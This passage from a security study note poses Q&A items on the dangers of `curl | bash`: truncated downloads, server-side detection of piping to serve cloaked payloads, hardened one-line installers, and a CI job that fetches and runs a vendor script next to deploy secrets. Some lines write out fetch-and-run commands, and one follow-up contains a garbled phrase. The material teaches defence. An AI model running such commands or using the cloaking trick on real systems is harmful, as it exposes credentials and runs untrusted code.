> > No for truncation: the substitution returns a shorter complete string and the masked curl status is lost, so bash runs the prefix.
> > For a 404, `-f` makes curl print nothing and exit 22, so bash receives an empty string and runs nothing, though the failure is silent.
> > Assign first and test: `body=$(curl -fsSL URL) || exit 1`.
> >
> > Follow-up: What limit applies to the size of the script in this form on Linux?

> [!question] L7+: How can a server tell that its response is being piped into a shell, and how would you defend against it?
>
> > [!success]- Answer
> > A shell stops reading while a command runs, so the pipe fills, curl blocks in `write`, the TCP window closes, and the server's `send` stalls.
> > A server sends `sleep N`, pads with enough bytes (about 1 MB on the 2016 Ubuntu test) to fill the buffers, measures the stall, and serves different bytes.
> > Defences: never pipe untrusted output into a shell, save to disk and read, pin a digest, and note that `curl URL | (sleep 3; cat)` tests for stall-based cloaking but is not conclusive.
> >
> > Follow-up: What part of this does the lab's pipe-only probe fail to model?

> [!question] L7+: Design the distribution of a CLI tool so that users can still install with one line, but a truncated or tampered download cannot run.
>
> > [!success]- Answer
> > Serve a small stub whose entire body is one function and one final call, over HTTPS.
> > The stub detects the platform, downloads the real artifact to a file with `--proto '=https' -fsS`, verifies a SHA-256 or signature whose key it carries or fetches from a different origin, and only then installs into a user-owned prefix.
> > Also publish a package-manager route and a documented file-first route.
> > rustup-init is the shape: a shell stub that downloads a binary to a file.
> >
> > Follow-up: What do you do about the digest in the stub if the stub itself is what is tampered with?

> [!question] L7+: A CI pipeline runs `bash <(curl -s https://vendor.example/uploader)` on every build and holds deploy credentials in the environment: what is the risk and what do you change?
>
> > [!success]- Answer
> > The vendor origin is a trust root with code execution in your secrets context; Codecov's Bash Uploader was altered for 2021-01-31 to 2021-04-01 and exfiltrated environment variables, and a customer found it by comparing a checksum.
> > `<(...)` does not help: bash still reads the pipe incrementally, so truncation also runs a prefix.
> > Change: vendor the script into the repo or pin its digest, run it in a job with only the secrets it needs, and rotate on any suspected window.
> >
> > Follow-up: What is the exposure window for a credential that was in the environment during those 108 windows, and what do you rotate?

## Related

Prerequisites: [[Secrets-in-argv-env-and-History]]

Next: [[Supply-Chain-Pinning-and-Verification]]

See also: [[Shell-Threat-Model]], [[xz-Utils-Backdoor]], [[Sandboxing-Scripts]], [[sudo-and-sudoers]], [[Dropping-Privileges]], [[pipefail-and-PIPESTATUS]], [[Pipelines-and-And-Or-Lists]], [[Here-Documents]], [[Pipes-and-FIFOs]], [[SIGPIPE-and-EPIPE]], [[Exit-Status-and-Wait-Status]], [[dev-fd-and-dev-stdin]], [[curl-in-Depth]], [[HTTP-Retries-and-Timeouts-with-curl]]

## Further reading

- POSIX.1-2024 Shell Command Language, https://pubs.opengroup.org/onlinepubs/9799919799/utilities/V3_chap02.html: XCU 2.3 (execute each `complete_command` before the next is parsed), 2.7.4 (here-document at end of input), 2.8.1 (syntax errors), 2.9.2 (`pipefail`).
- POSIX.1-2024 `sh`, https://pubs.opengroup.org/onlinepubs/9799919799/utilities/sh.html: the STDIN section, the no-read-ahead rule, and `-s`.
- Codecov, "Bash Uploader Security Update", https://about.codecov.io/security-update/: the incident, the injected line, the dates, and the checksum that caught it.
- idontplaydarts.com, "Detecting the use of curl | bash server side" (2016-04-19), https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/: the backpressure attack and its limits.
- curl man page, https://curl.se/docs/manpage.html: exit codes 18, 22, 23, and the `--fail`, `--retry`, `--proto-redir` caveats.
- pipe(7), https://man7.org/linux/man-pages/man7/pipe.7.html: capacity, blocking, and `SIGPIPE`.
- execve(2), https://man7.org/linux/man-pages/man2/execve.2.html: the per-string argument limit that bounds `sh -c "$(curl ...)"`.
- dash `src/input.c`, https://git.kernel.org/pub/scm/utils/dash/dash.git/plain/src/input.c: `stdin_tee`, the fix for read-ahead on pipes.
- Docker's get.docker.com and nvm's install.sh: the vendors' own wrap-in-a-function guards.
- sh.rustup.rs: a shell stub that downloads the real installer to a file and uses `/dev/tty` for prompts.
- dxa4481, Pastejacking, https://github.com/dxa4481/Pastejacking: clipboard substitution against copied one-liners.
